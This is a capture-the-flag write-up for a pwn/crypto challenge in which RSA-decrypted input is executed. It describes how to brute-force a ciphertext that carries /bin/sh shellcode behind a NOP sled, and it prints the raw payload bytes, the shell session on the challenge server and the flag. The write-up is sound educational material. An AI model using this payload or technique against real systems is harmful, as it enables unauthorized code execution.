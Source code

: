 # Day 7 - Naughty or Nice V2 - pwn, crypto

> Last year, Santa made a network service to receive instructions for Christmas wishes. Unfortunately it had some security issues, which have now been fixed. Hopefully...

Service: nc 3.93.128.89 1207

Download: [4fe49d64cc579b73f94ba74480571a1afbd4cb9a7ca17798b7fff50fb5d97713-naughty_or_nice_v2.tar.gz](https://advent2019.s3.amazonaws.com/4fe49d64cc579b73f94ba74480571a1afbd4cb9a7ca17798b7fff50fb5d97713-naughty_or_nice_v2.tar.gz)

Mirror: [naughty_or_nice](./static/naughty_or_nice)

## Analysis

Pulling up the binary in Ghidra, we can see that it is a fairly simple binary. The decompilation for the main function is done pretty well and is shown below.

![main decompile](./images/day7_main_decompile.png)

Basically what this says is that a ciphertext will be read, it will be RSA decrypted, checked that it has a PKCS1 padding, and then executed. Now, in most instances, this wouldn't lead immediately to complete code execution because we can't easily construct enough shellcode with a PKCS1 padding to run a system shell.

However, there is one bug in this program which allows for much easier code execution. In looking at where data is stored in memory, we have the following:

```
0x00104160-0x001041df	ciphertext
0x001041e0-0x00104259	plaintext
```

Furthermore, the `make_executable` function call doesn't make _just_ the ciphertext executable, but the entire page which includes the ciphertext. Since we fully control the ciphertext and it is the only location where we can write data this seems like the obvious spot for shellcode.

## Constructing Ciphertext

Since we don't know the private RSA key, we can't just create a ciphertext that will decrypt correctly with padding. So, for our purposes, decrypting any ciphertext will give something like random data. Because this is the case, we can choose ciphertext which contains all of our shellcode (to execute `/bin/sh`) with some a NOP sled before it and some random data, and then force it through the decryption operation locally. If we do this enough times we'll get a payload which decrypts with valid PKCS1 padding.

Now, having the padding alone won't be enough to execute our shellcode - it will just have random instructions. So I chose to add another constraint which was that the decrypted contents contained a stub instruction such as `jmp -N` where N is some relatively nice value which would jump to our shellcode. By testing a lot of potential ciphertexts, I eventually came up with one that worked. With this in hand, it can be sent to the server for a shell. My solution is included [in a python script](./solutions/day7_solver.py) and the output is shown below.

```
$ ./solver.py
After last year's embarrassment, Santa decided to simplify how he authenticated letters.

 "What's the point of hashing the message first, if the message is short?
  We can just encrypt the message itself with the private key!
  It should be fine as long as we use a secure padding scheme like PKCS#1 1.5, right?"

So, what would you like for Christmas?

>> b'\x0c\x06\xb2\\\x95\xea\x01W\xbb3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xc0H\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xffH\xf7\xdbST_\x99RWT^\xb0;\x0f\x05'
Nice!
Nice!

>> b'id\n'
uid=999(ctf) gid=999(ctf) groups=999(ctf)

>> b'ls -al\n'
total 36
drwxr-xr-x 1 root ctf   4096 Dec  6 18:17 .
drwxr-xr-x 1 root root  4096 Dec  6 18:17 ..
-r--r----- 1 root ctf     36 Dec  6 18:14 flag
-rwxr-x--- 1 root ctf  17712 Dec  6 18:14 naughty_or_nice
-rwxr-x--- 1 root ctf     47 Dec  6 18:14 redir.sh

>> b'cat flag\n'
AOTW{Nev3r_Ev3r_r0ll_ur_0wn_crypt0}

>> b'cat redir.sh\n'
#! /bin/bash
cd /home/ctf && ./naughty_or_nice

```